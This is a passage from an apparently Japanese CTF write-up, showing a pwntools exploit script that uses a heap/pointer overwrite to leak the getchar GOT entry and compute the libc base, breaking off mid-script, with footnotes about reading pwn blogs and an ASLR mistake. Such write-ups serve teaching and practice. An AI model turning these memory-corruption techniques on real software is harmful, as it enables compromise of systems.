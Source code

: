 {{ image(path="static/img_2.png", caption="🎉") }}

## スクリプト
最終的なスクリプトが以下です。
```py
from pwn import *

context.arch = "amd64"
context.bits = 64
context.terminal = "tmux splitw -h".split()
context.log_level = "DEBUG"

s2sh = lambda pl: b"".join([p8(int(pl[i : i + 2], 16)) for i in range(0, len(pl), 2)])
s2u64 = lambda s: u64(s.ljust(8, b"\x00"))
i2b = lambda x: f"{x}".encode()
ptr_guard = lambda pos, ptr: (pos >> 12) ^ ptr


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_LIBRARY_PATH": "."})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                elf_name, script, env={"LD_LIBRARY_PATH": "."}
            )
    else:
        io: tubes.tube.tube = process(elf_name, env={"LD_LIBRARY_PATH": "."})
    return io


def solve():
    global t
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)

    def run() -> bytes:
        sla(b"choice: ", i2b(1))
        return t.recvuntil(b"1. Run")

    def update(msg: bytes):
        if b"\a" in msg:
            raise Exception("Invalid bytes")
        sla(b"choice: ", i2b(2))
        sa(b"ask me?", msg)

    def fin():
        sla(b"choice: ", i2b(3))

    gen = cyclic_gen()
    sla(b": ", gen.get(8))
    wriable_area = 0x4082E0

    update(b"ABCD\n")
    update(b"A" * 0x10 + p64(elf.got["getchar"]) + p8(8) + b"\n")
    buf = run()
    info(buf)
    buf = buf[buf.find(b"with token ") + 12 :][:8]
    info(f"{buf=:}")
    libc_base = s2u64(buf) - 0x87B60
```

[^1]: このブログは全ページ全pwner読むべきだと思っています
[^2]: libcからTLSへのオフセットが一定だと思っていて、Master Canaryをleakしようとして1時間とかしました(ASLRをオフにしていただけ)
